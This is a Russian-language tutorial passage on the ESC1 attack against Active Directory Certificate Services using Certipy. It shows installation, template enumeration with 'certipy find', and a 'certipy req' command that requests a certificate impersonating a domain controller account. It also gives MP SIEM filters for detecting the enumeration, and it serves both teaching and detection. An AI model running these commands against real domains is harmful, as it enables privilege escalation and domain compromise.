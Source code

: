 ### Разведка
Первым делом нам необходимо провести "разведку" в отношении центра сертификации. Для этого воспользуемся опенсорсной утилитой Certipy (https://github.com/ly4k/Certipy)
Её установка очень проста:
```bash
pip3 install certipy-ad
```
Если во время установки появляется проблема с сертификатами, решить её можно следующим образом:
```bash
pip3 install --trusted-host pypi.org --trusted-host pypi.python.org --trusted-host files.pythonhosted.org certipy-ad
``` 

Далее при помощи установленной утилиты и имеющейся учетной записи пользователя осуществляем разведу:
```bash
certipy find -u 'user@domain'
```

![Сканирование возможных векторов атаки](https://telegra.ph/file/3c9ae68761a99c7393950.png)

В результате разведки мы получаем файлы в формате json и txt.
Рассмотрим подробнее содержимое .txt. В нем перечислены обнаруженные шаблоны сертификатов. Для каждого из шаблонов мы получаем возможные векторы эксплуатации. В моём случае уязвимым оказался шаблон с номером 3:
![Уязвимый к ESC1 шаблон сертификатов](https://telegra.ph/file/7a1d07d5a3e797f4dcf97.png)

#### Поиск связанных событий в SIEM

Certipy не работает бесследно, и в SIEM мы можем запросто наблюдать активность, свидетельствующую о разведке в отношении AD CS. В моём случае я выявил следующие запросы со стороны атакующего (приведены конкретные фильтры для MP SIEM):

```pdql
object.value = "cn,name,displayName,pKIExpirationPeriod,pKIOverlapPeriod,msPKI-Enrollment-Flag,msPKI-Private-Key-Flag,msPKI-Certificate-Name-Flag,msPKI-Minimal-Key-Size,msPKI-RA-Signature,pKIExtendedKeyUsage,nTSecurityDescriptor,objectGUID"

object.query = "(objectClass=pKICertificateTemplate)"

object.value = "cn,name,dNSHostName,cACertificateDN,cACertificate,certificateTemplates,objectGUID"

object.query = "( &  (objectClass=pKIEnrollmentService) )"
```

На текущем этапе мы знаем всё, что нужно, для осуществления дальнейшей атаки. Приступим к эксплуатации!


### Эксплуатация
Мы знаем имя уязвимого шаблона (WebserverwithClientauthEKU), а также на этапе разведки нами получена уязвимая учетная запись компьютера. Так как этот шаблон позволяет объектам из группы Domain Computers запрашивать сертификаты с SAN, не составит труда проэксплуатировать обнаруженный миссконфиг:
```bash
certipy req -u computer@domain -target ca.domain -ca 'CA NAME' -template WebserverwithClientauthEKU -upn "dc1$@domain" -dc-ip 10.10.10.10
```
![Эксплуатация уязвимого шаблона сертификата](https://telegra.ph/file/b3610b08ed4227f3cfd57.png)
